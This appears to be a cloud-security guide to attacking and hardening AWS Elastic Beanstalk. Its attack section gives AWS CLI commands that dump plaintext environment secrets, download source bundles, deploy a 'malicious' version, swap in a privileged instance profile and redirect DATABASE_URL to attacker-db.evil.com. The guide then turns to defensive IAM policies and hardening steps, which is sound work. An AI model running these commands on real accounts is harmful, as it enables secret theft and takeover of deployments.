

AWS Elastic Beanstalk is a PaaS that orchestrates EC2, Auto Scaling, ELB, S3, CloudWatch, and IAM to deploy applications. It creates a predictable S3 bucket (elasticbeanstalk-region-account-id) containing source bundles, exposes environment variables in plaintext through its API, and runs EC2 instances with IMDS.
Every application version is stored as a ZIP/WAR source bundle in elasticbeanstalk-region-account-id S3 bucket. Source bundles frequently contain hardcoded secrets, database credentials, and API keys.
Environment properties are stored as option settings and returned in plaintext by DescribeConfigurationSettings. Any principal with this permission can read every environment variable including secrets.
Elastic Beanstalk combines multiple attack surfaces: deterministic S3 bucket naming exposes source code, plaintext environment variables leak secrets through the API, EC2 instances with IMDS provide credential theft opportunities, and .ebextensions hooks allow code execution as root.
aws elasticbeanstalk describe-applicationsaws elasticbeanstalk describe-environmentsaws elasticbeanstalk describe-configuration-settings \
--application-name APP_NAME \
--environment-name ENV_NAMEaws elasticbeanstalk describe-application-versions \
--application-name APP_NAMEaws s3 cp s3://elasticbeanstalk-REGION-ACCOUNT_ID/APP_NAME/SOURCE_BUNDLE.zip .aws elasticbeanstalk describe-configuration-settings \
--application-name APP_NAME \
--environment-name ENV_NAME \
--query 'ConfigurationSettings[0].OptionSettings[?Namespace==`aws:elasticbeanstalk:application:environment`].[OptionName,Value]' \
--output tableaws elasticbeanstalk create-application-version \
--application-name APP_NAME \
--version-label malicious-v1 \
--source-bundle S3Bucket=elasticbeanstalk-REGION-ACCOUNT,S3Key=deploy.zipaws elasticbeanstalk update-environment \
--environment-name ENV_NAME \
--option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=PRIVILEGED_PROFILEaws elasticbeanstalk update-environment \
--environment-name ENV_NAME \
--option-settings Namespace=aws:elasticbeanstalk:application:environment,OptionName=DATABASE_URL,Value=attacker-db.evil.com{
"Effect": "Allow",
"Action": "elasticbeanstalk:*",
"Resource": "*"
}Full control -- can read secrets, deploy malicious code, and change instance profiles
{
"Effect": "Allow",
"Action": [
"elasticbeanstalk:DescribeApplications",
"elasticbeanstalk:DescribeEnvironments",
"elasticbeanstalk:DescribeEnvironmentHealth"
],
"Resource": "*"
}Environment monitoring without exposing configuration secrets
{
"Effect": "Allow",
"Action": "elasticbeanstalk:DescribeConfigurationSettings",
"Resource": "*"
}Allows reading all environment variables (including plaintext secrets) from any environment
Never store raw secrets in Elastic Beanstalk environment properties. Use Secrets Manager references.
aws elasticbeanstalk update-environment --environment-name ENV \
--option-settings Namespace=aws:elasticbeanstalk:application:environmentsecrets,OptionName=DB_PASSWORD,Value=arn:aws:secretsmanager:REGION:ACCT:secret:my-passBlock SSRF-based credential theft by requiring IMDSv2 on all EC2 instances.
aws elasticbeanstalk update-environment --environment-name ENV \
--option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=DisableIMDSv1,Value=trueEnable KMS encryption on the Elastic Beanstalk S3 bucket and restrict access to service role only.
Create custom instance profile with only required permissions. Remove unused managed policies.
Keep OS, runtime, and web server patched automatically.
Explicitly deny DescribeConfigurationSettings for all principals except deployment pipelines.